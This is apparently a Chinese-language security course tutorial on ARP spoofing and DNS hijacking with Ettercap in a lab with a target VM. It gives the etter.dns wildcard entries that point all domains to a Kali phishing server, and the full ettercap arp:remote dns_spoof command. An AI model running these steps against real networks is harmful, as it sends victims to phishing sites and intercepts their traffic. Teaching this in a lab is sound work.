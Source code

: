 # ARP-Ettercap dns劫持

## 1.什么是DNS

#### 1.概念

DNS是Domain Name System的缩写, 我们称之域名系统。首先它是远程调用服务，本地默认占用53端口，它本身的实质上一个域名和ip的数据库服务器，他要完成的任务是帮我们把输入的域名转换成ip地址，之后通过ip寻址连接目标服务器。

#### 2.工作过程

当访问一个网站时系统将从DNS缓存中读取该域名所对应的IP地址，当查找不到时就会到系统中查找hosts文件，如果还没有那么才会向DNS服务器请求一个DNS查询，DNS服务器将返回该域名所对应的IP，在你的系统收到解析地址以后将使用该IP地址进行访问，同时将解析缓存到本地的DNS缓存中。

## 2.什么是DNS劫持

#### 1.概念

 DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求，分析请求的域名，把审查范围以外的请求放行，否则返回假的IP地址或者什么都不做使请求失去响应，其效果就是对特定的网络不能访问或访问的是假网址。

#### 2.ettercap劫持的原理

局域网劫持, 攻击者通过伪装成网关, 劫持受害者的网络请求, 将网络请求拦截到指定的服务器

#### 3.DNS常用命令讲解

1.查看DNS缓存表

```
ipconfig /displaydns
```

![image-20240929001409522](7.Ettercap dns劫持/image-20240929001409522.png)	

查询到马士兵网站的地址如下

![image-20240929001457899](7.Ettercap dns劫持/image-20240929001457899.png)	

2.获取DNS地址：

```
ping maishibing.com
```

2.刷新DNS缓存

用于清除dns缓存

```
ipconfig /flushdns
```



## 3.ARP-DNS欺骗攻击步骤

注意:这个用于欺骗http协议的网站基本上都能成功，https有时可以欺骗成功，有时不行。

#### 1.kali开启apache服务

```
service apache2 start
```

![image-20240929001610415](7.Ettercap dns劫持/image-20240929001610415.png)	

#### 2.浏览器访问Apache的首页

```
http://192.168.15.141
```

假设该网站拿来作为钓鱼网站。

![image-20240929001633884](7.Ettercap dns劫持/image-20240929001633884.png)

#### 3.编辑ettercap配置文件

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制原有的配置文件（环境恢复比较方便）

```
cp etter.dns etter.dns1
```

![image-20240929001733802](7.Ettercap dns劫持/image-20240929001733802.png)	

#### 3.设置dns劫持配置文件

```
vi /etc/ettercap/etter.dns
添加以下内容
*   A   192.168.110.12
*   PTR 192.168.110.12
wq保存
参数
*:代表所有的网站 也可设置某个网站 www.mashibing.com
A:代表钓鱼的ip地址
PTR ：常被用于反向地址解析
```

添加如下内容，用于作为ettercap的dns解析，只要解析任何域名地址，就会返回这个kali的ip，即钓鱼网站的ip

![image-20240929001842920](7.Ettercap dns劫持/image-20240929001842920.png)		

#### 4.ettercap劫持命令讲解

```
第一个ip是靶机ip，第二个是网关ip
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /靶机ip// /网关ip// 
 -i：网卡
 -T：文本模式
 -q：安静模式
 -M：执行mitm攻击
 -P：plugin 开始该插件
```

#### 5.靶机访问以下网站确认环境正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
ping m.ctrip.com
ping www.jd.com
```

目前访问的域名是正常的网站。

![image-20240929002244857](7.Ettercap dns劫持/image-20240929002244857.png)

​	

#### 6.执行劫持命令

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.15.100// /192.168.15.2// >b.txt
```

![image-20240929002339781](7.Ettercap dns劫持/image-20240929002339781.png)	

#### 7.分析日志

```
tail -f b.txt
或者
tail -f b.txt | grep "dns_spoof"
```

#### 8.靶机访问以下网站查看攻击效果

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

会发现此时访问马士兵的域名是kali的ip.

![image-20240929002415821](7.Ettercap dns劫持/image-20240929002415821.png)	

此时访问马士兵的域名发现变成了钓鱼网站。

![image-20240929002709484](7.Ettercap dns劫持/image-20240929002709484.png)	

#### 9.停止劫持

```
Ctrl+C
```

#### 10.恢复dns劫持，刷新dns缓存即可。

```
ipconfig /flushdns
```

#### 11.靶机访问以下网站查看环境是否恢复正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

此时ping可以发现ip恢复正常。

![image-20240929003031454](7.Ettercap dns劫持/image-20240929003031454.png)	

#### 12.恢复kali环境

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制dns文件到新文件

备份这个配置好dns的到etter.dns2文件下。

```
cp etter.dns etter.dns2
```

##### 3.还原dns配置文件

保存好配置的dns文件后，可以还原成初始配置。

```
cp etter.dns1 etter.dns
```

## 4.课堂小结

参考：ARP-Ettercap dns劫持.xmind

